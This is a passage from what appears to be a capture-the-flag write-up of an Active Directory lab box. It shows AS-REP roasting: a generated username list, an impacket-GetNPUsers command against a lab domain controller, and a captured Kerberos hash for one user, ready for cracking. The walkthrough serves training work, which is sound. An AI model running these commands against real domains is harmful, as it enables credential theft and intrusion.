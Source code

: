 In other words, creating a txt file such as the following:

<div class="article-image">
  <img src="/assets/img/sauna/usernames.png">
</div>

Using a tool such as [Username Anarchy][Username-Anarchy] works perfectly for this purpose.

Once equipped with our username permutations, we can query for users with no preauthentication required.

I will use `impacket-GetNPUsers`.

<div class="article-code">
{% highlight sh %}
jeanp@~$ impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -usersfile usernames.txt -format hashcat -outputfile hashes.txt

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:95e5c37cac504dba3c285bd64a4e46ad$e65254bbf722d8abc77186
c94c1dbda7c06c0eef97974c88bb67c80bcad56a35d23bee752ca7d11c60806607bd38e253cf4420b3c0f7af1bf02cb00c6
a459dc23b7e8b4fdc9994518b1aa80c7c3027a3f2b781b5ff523f2236f94a2de3060277e57f5be61e11804ef46a9d2c3a8b
30064cc0b3e1dc88fd1b8273be712e9f12ab1cac685dbb6ff8e375cd0da6d53efba0c8f7713472996c3d351e13a44983f7d
8e8b3a718957548922e2d6ab527263f17e53f6b7b96ccb1f8b6490f6933c35e387e2e1f7060e012c9b73ac054bf9f65d89b
15605fae2ba85cabb003379c69447479864149abc5056f822f86ae1337673b61b98de94f75fb592986571aefc5d377
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
{% endhighlight %}
</div>


[Pass-The-Hash]: https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes
[Username-Anarchy]: https://github.com/urbanadventurer/username-anarchy
[Evil-Winrm]: https://github.com/Hackplayers/evil-winrm
[WinPEAS]: https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md